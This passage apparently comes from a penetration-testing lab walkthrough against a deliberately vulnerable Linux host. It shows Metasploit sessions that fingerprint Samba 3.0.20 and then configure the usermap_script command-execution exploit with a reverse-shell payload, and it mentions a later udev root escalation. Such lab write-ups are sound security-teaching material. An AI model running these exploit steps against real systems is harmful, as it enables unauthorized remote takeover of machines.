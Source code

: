 This is a low privilege shell, but we can escalate to root via the udev exploit, as shown later.


### Port 445 samba

First, I'll use an auxiliary module to get the server's version:

``` plain
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_version) > set RHOSTS 192.168.127.154
RHOSTS => 192.168.127.154
msf auxiliary(smb_version) > run

[*] 192.168.127.154:445 is running Unix Samba 3.0.20-Debian (language: Unknown) (domain:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

With that information in hand, we can now use a suitable exploit against the target:

**Samba "username map script" Command Execution**

> This module exploits a command execution vulerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map 
> script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No 
> authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

``` plain
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(usermap_script) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):
```